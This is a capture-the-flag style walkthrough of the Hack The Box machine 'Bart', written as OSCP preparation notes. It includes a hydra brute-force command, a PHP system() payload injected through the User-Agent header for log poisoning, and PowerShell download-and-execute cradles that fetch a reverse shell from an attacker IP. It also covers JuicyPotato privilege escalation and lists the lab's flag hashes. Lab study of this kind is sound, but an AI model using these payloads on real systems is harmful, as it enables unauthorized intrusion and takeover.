bart


note
we have to reset our cache and clear our cookies a lot with this box otherwise we get sent to dns sinkholesdo that in our webrower settings in the Cookies and Site Data section


nmap
Lets start initial enumeration off with nmapAutomatornmapAutomator.sh 10.10.10.81 All

only port open on bart is 80

http enumeration
See child nodes• Gobuster
• internal-01.bart.htb
• initial foothold
gobuster
server status always respond with status code 200 with this webpagegobuster dir -u 10.10.10.81 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

so we omit status code 200 from our dirbuster with -s listing all the status codes besides 200
gobuster dir -u 10.10.10.81 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 204,301,302,307,401,403

\
lets add both monitior.bart.htb and forum.bart.htb to our /etc/hosts file

forum


new employee, might still have default creds
powered by word press

source code
wordpress content and plugins stripped from the source code, wpsscan prob not going to be much 1 match
1 matchcommented out source code reveals theres a developer named harvey potter

monitor

forgot password page
invalid username:
Server responses that verify valid users on an incorrect login attempt is a glaring vulnerability for any login portal to have because malicious users can use the server's responses to enumerate registered users. Best to keep a generic "login failed" server response no matter the reason
valid username: harvey

creds
trying some default passwords to match harvey's account, when trying his last name Potter we log in successfully
servers
we see there is another domain we can look into named internal-01.bart.htb
lets add it to our /etc/hosts file

internal-01.bart.htb
after we add the new domain internal-01.bart.htb to /etc/hosts file we can navigate to this page

there are 2 ways to go from here,
1. we can gobuster the webserver and see if we can find any more interesting pages,
2. or use hydra to bruteforce the login
gobuster internal-01.bart.htb
to directory bust the internal-01.bart.htb domain, we usegobuster dir -u internal-01.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


unfortunately, there's nothing much to go off from here
hydra
first lets catch the login request with burp suite
we'll assume harvey is a user and brute force passwords to his username

Note: our password must be at least 8 characters

hydra -l harvey -P /usr/share/wordlists/metasploit/common_roots.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
where
• -l is a single username
• -P is a password list
• internal-01.bart.htb is the target host
• http-post-form is the attack type specified to hydra
• /simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password is a concatenated string consisting of
◇ the login web address
◇ the parameters taken and sent to authenticate via the post request
◇ a unique string returned whenever an authentication attempt fails
▪

▪ Note: I use only Password because it is a common server response for both an invalid password and a password less than 8 characters
- (I am also guessing that the string password will not show up on a successful login)

bruteforced user harvey login
Authenticating to the server brings us to a conversation between the server devs
simple_chat
simple_chatgoogling the service that the login form uses, and doing a little digging (courtesy of rana) shows there is a form that allows registration on the simple chat service


register_form.php
navigating to that page while crossing our fingers, we see we have a hit
modifying our request form from our captured login request, if we send the POST to register_form.php file, we see we get redirected, which is a good sign 
taking a look at the source code of register.php:

simply put, if we submit an unregistered username and password to the register.php webpage, it will automatically register us!

lets give it a shot:

now the username st0ve and the password xiong should be registered to the simple chat
actually the pw needs to be 8 characters long
ill go with xiongxiong
registered user st0ve login
Now to put our registered creds to the test...
and we're logged in as our created user!

initial foothold
logging into the simple chat we see there's a bobby, same one from the forum.bart page

checking into the page source code of the simple chat service, we see theres a script saveChat() that preforms a get on an interesting URL
 , lets navigate to it
, lets navigate to it
internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey
when we navigate to the pagehttp://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey

we see that the page displays harvey's username but also displays OUR OWN User-agent
 , lets mess with it and see if we can inject remote code execution into the log.php file and run it
, lets mess with it and see if we can inject remote code execution into the log.php file and run it 

we get a strange response of only 1, but we do see that there is a filename pointing to some file located on the server, so lets mess around with that
if we switch the filename parameter equal to the file log instead of log.php...

we see the log output of the log.php get request we sent from before! and even more interesting....

we see our user-agent was saved in the log form

Meaning, we may be able to poison the log.txt file on Bart's server by altering our user-agent field when sending Get requests to the log.php file!
log.txt poison w/ code execution
lets see what happens when we replace our user agent with a system call written in php<?php echo system($_REQUEST['st0ve']); ?>

to test to see if our php code gets processed by Bart's webserver, lets navigate to the log.txt file while appending an
& + st0ve=whoami


and we see our whoami command executed!
reverse shell w/ nishang
now that we know we have remote code execution verified, lets use nishang's invoke-powershelltcp script to call a shell back to our attack machine
add this line of code to the bottom

now to send our http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey&st0ve=whoami url and intercept it in burpsuite and use powershell to download and execute our reverse shell

powershell "IEX(new-object net.webclient).downloadstring('http://10.10.14.62/PwrShell.ps1')"

finally, URL encode the powershell command with CTRL+U, set up an http server from our attack machine, a listener on port 4444 and send the request


priv esc
juicy potatojuicy potato
it's always a good idea to start priv-esc enumeration on a windows machine with whoami /priv to see what kind of privileges our victim has
the victim is vulnerable to the juicy potato exploit because the SeImpersonatePrivilege state is enabled
lets copy another powershelltcp over and change the port it will call back to

next lets create a batch script locally that will have JP download our powershell script and call a reverse shell back to us

now lets copy juicy potato to our bart directory or download it here

download jp.exe & shell.bat to victim
lets navigate to the /Users/Public/Downloads directory and use powershell to download both juicy potato and our that batch script juicy potato will run that will call a reverse shell back to us as rootpowershell IEX(new-object net.webclien).downloadfile('http://10.10.14.62/shell.bat', 'C:\Users\Public\Downloads\shell.bat')

powershell IEX(new-object net.webclien).downloadfile('http://10.10.14.62/jp.exe', 'C:\Users\Public\Downloads\jp.exe')


jp.exe
running jp.exe takes -t * parameter, the -p <batch file> and the port our current shell is listening on -l 4444./jp.exe -t * -p shell.bat -l 4444

seems our CLSID is failing, lets find another that will work for us

./jp.exe -t * -p shell.bat -l 4444 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"

be sure to have a webserver and listener running before you launch juicy potato

and we root the machine!
user/root
625b6c7aa299599acae0125d3af3830f

0074a38e6eac2d3785741713b3bfa2dc
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/